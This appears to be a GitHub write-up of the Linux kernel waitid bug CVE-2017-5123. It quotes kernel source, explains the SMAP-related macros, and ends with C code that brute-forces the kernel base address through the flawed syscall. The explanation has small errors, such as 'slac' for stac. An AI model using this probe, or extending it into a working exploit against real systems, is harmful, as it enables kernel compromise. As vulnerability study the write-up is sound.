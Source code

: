 # CVE-2017-5123

**CVE-2017-5123** is a vulnerability in the waitid syscall implementation which allows writes (limited writes only 0 can be written anywhere in memory) to memory address specified by user without checking if they are kernel addresses or userland addresses.


## Understanding the Vulnerability.

File : `kernel/exit.c`

```C
SYSCALL_DEFINE5(waitid, int, which, pid_t, upid, struct siginfo __user *,
		infop, int, options, struct rusage __user *, ru)
{
	struct rusage r;
	struct waitid_info info = {.status = 0};
	long err = kernel_waitid(which, upid, &info, options, ru ? &r : NULL);
	int signo = 0;

	if (err > 0) {
		signo = SIGCHLD;
		err = 0;
		if (ru && copy_to_user(ru, &r, sizeof(struct rusage)))
			return -EFAULT;
	}
	if (!infop)
		return err;

	user_access_begin();
	unsafe_put_user(signo, &infop->si_signo, Efault);             /*  All the unsafe_put_user() calls should tingle your spidy senses  */ 
	unsafe_put_user(0, &infop->si_errno, Efault);                            
	unsafe_put_user(info.cause, &infop->si_code, Efault);         
	unsafe_put_user(info.pid, &infop->si_pid, Efault);             
	unsafe_put_user(info.uid, &infop->si_uid, Efault);              
	unsafe_put_user(info.status, &infop->si_status, Efault);
	user_access_end();
	return err;                                                         
Efault:
	user_access_end();
	return -EFAULT;
}
```

lets look at the unsafe_put_user() function  

File: `include/linux/uaccess.h`

```C

/*
 * The "unsafe" user accesses aren't really "unsafe", but the naming
 * is a big fat warning: you have to not only do the access_ok()
 * checking before using them, but you have to surround them with the
 * user_access_begin/end() pair.
 */
#define user_access_begin()	__uaccess_begin()
#define user_access_end()	__uaccess_end()

#define unsafe_put_user(x, ptr, err_label)					\
do {										\
	int __pu_err;								\
	__typeof__(*(ptr)) __pu_val = (x);					\
	__put_user_size(__pu_val, (ptr), sizeof(*(ptr)), __pu_err, -EFAULT);	\
	if (unlikely(__pu_err)) goto err_label;					\
} while (0)

#define unsafe_get_user(x, ptr, err_label)					\
do {										\
	int __gu_err;								\
	__inttype(*(ptr)) __gu_val;						\
	__get_user_size(__gu_val, (ptr), sizeof(*(ptr)), __gu_err, -EFAULT);	\
	(x) = (__force __typeof__(*(ptr)))__gu_val;				\
	if (unlikely(__gu_err)) goto err_label;					\
} while (0)

#endif /* _ASM_X86_UACCESS_H */ss
```
unsafe_put_user() macro will just write a value to the pointer specified by ptr


Oh look! Somebody wrote a comment it says that we need to surround unsafe_put_user() with user_access_begin/end() pair and also perform access_ok() lets take a look at these functions .

```C
#define __uaccess_begin() stac()
#define __uaccess_end()   clac()
```
the __uaccess_begin() and __uaccess_end() are just wrapper macros for stac and clac assembly instructions

**stac** : Sets the AC flag bit in EFLAGS register. This may enable alignment checking of user-mode data accesses. This allows explicit supervisor-mode data accesses to user-mode pages even if the SMAP bit is set in the CR4 register.

[more about stac instruction ](https://www.felixcloutier.com/x86/stac)

**clac** : Clears the AC flag bit in EFLAGS register. This disables any alignment checking of user-mode data accesses. If the SMAP bit is set in the CR4 register, this disallows explicit supervisor-mode data accesses to user-mode pages.

[more about clac instruction ](https://www.felixcloutier.com/x86/clac)

__uaccess_begin() and __uaccess_end() basically disable and enable SMAP for userland access respectively.


```C
/**
 * access_ok: - Checks if a user space pointer is valid
 .
 .
 .
 **/
    #define access_ok(type, addr, size)					\
({									\
	WARN_ON_IN_IRQ();						\
	likely(!__range_not_ok(addr, size, user_addr_max()));		\
})

```
the access_ok() macro just checks if a pointer is a valid userland pointer and EFAULTs if otherwise.

## SMAP

Previously we talked about the stac and clac instruction which can disable and enable SMAP...     

so what is SMAP?
***SMAP*** stands for Supervisor Mode Access Protection it marks userland pages as non-readable.

so in order to write to userland pages we need to disable SMAP . the *slac()* and *clac()* functions do exactly that.

slac() - disables SMAP          
clac() - enables SMAP


## Exploit Strategy - 1

This bug is a very simple bug but exploitation for this bug is not that trivial according to my understanding there aren't any obvious paths for exploitation after looking at [this](https://salls.github.io/Linux-Kernel-CVE-2017-5123/) article by salls. i looked at a couple of strageties and i decided to go with a different approach similar to the one described in [this](https://reverse.put.as/2017/11/07/exploiting-cve-2017-5123/) article here.

In this exploit strategy we try to find the kernel address by bruteforcing available memory addresses by writing 0x0 to random addresses and checking if we return a `EFAULT` because when we write to a invalid pointer we return a `EFAULT` but the kernel doesn't panic.... we can use this to find the base of the kernel like so:

```C
# exp.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/wait.h>

int main(){

pid_t pid;
unsigned long i ;
for(i = (char *)0xffff880000000000; ; i+=0x10000000) {
    pid = fork();
    if (pid > 0) 
    {
        if(syscall(247, P_PID, pid, (siginfo_t *)i, WEXITED, NULL) >= 0)  # 247 is the waitid syscall number . 
        {
            printf("Base found at :0x%p\n", i);

        }    
    }
}

return 0;
}
```
